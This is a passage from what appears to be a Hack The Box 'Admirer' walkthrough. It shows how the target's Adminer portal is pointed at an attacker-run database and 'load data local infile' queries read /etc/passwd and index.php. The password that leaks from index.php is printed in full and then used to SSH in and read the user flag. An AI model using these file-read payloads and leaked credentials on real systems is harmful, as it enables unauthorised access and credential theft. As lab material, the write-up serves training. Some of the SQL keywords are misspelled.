 ```bash
```

Connect to through the portal using your `IP ADDRESS` from `tun0`, the user `demo` and his password and connect to the `exploit` database and tada

![connected]({{site.baseurl}}/assets/img/HackTheBox/Admirer/connectedDB.png)

## Actually using the exploit

Now that we are connected we can have some fun. Let's first try to load data in our table

```SQL
load data local infile "/etc/passwd"
info table dmp
field terminated by "/n"
```

But in this case we get an error saying we can't open the file (kind of obvious but never hurts to try)

If you remember the `index.php`, the password for the database was clear on that file. Let's load this file in our table:

```SQL
load data local infile "../index.php"
info table dmp
field terminated by "/n"
```

![passwordUser]({{site.baseurl}}/assets/img/HackTheBox/Admirer/waldoPass.png)

And we get something now: THE PASSWORD for `waldo` : `&<h5b~yK3F#{PaPB&dA}{H>`

## Get User Flag

If you remember from our first part, there was ssh running so let's try and connect with the `user`:`password` we just got:

```bash
ssh waldo@10.10.10.187
waldo@10.10.10.187's password:
Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
Last login: Wed Apr 29 10:56:59 2020 from 10.10.14.3
waldo@admirer:~$ ls
user.txt
waldo@admirer:~$ cat user.txt
27e.......................44

```
